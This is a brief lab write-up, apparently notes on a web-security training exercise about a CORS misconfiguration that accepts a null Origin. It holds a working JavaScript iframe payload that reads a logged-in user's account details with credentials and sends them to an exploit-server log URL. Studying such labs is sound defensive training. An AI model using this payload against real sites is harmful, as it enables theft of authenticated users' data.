 We sent the Origin as null and we will get ACAO null, given to us the idea that it is vulnerable 
![[Pasted image 20250214172717.png]]

	Then we had got this code in order to help us with the lab
```Js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc=
"<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener()
	{ location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; 
	
</script>">
</iframe>

```

![[Pasted image 20250214173154.png]]